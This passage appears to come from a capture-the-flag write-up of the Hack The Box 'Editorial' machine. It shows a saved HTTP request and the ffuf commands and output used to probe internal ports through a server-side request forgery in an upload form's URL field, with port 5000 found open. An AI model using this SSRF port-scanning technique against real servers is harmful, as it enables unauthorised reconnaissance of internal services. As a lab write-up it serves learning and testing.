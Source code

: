 ```c
http://127.0.0.1:FUZZ
------WebKitFormBoundarylUeVtv36vebZPACI
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarylUeVtv36vebZPACI--
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: unsplash_photo
________________________________________________

5000                    [Status: 200, Size: 51, Words: 1, Lines: 1, Duration: 477ms]
:: Progress: [10000/10000] :: Job [1/1] :: 67 req/sec :: Duration: [0:01:03] :: Errors: 1 ::
```

Alternatively `fuff` can handle `request files`. Which makes the documentation a little bit cleaner. Awesome tool!

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Editorial/files]
└─$ cat request.req 
POST /upload-cover HTTP/1.1
Host: editorial.htb
Content-Length: 307
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8DGcLOaBG09f3afR
Accept: */*
Origin: http://editorial.htb
Referer: http://editorial.htb/upload
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundary8DGcLOaBG09f3afR
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
------WebKitFormBoundary8DGcLOaBG09f3afR
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary8DGcLOaBG09f3afR--
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Editorial/files]
└─$ seq 1 10000 | ffuf -w - -request request.req -u http://editorial.htb/upload-cover -fr "unsplash_photo"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

```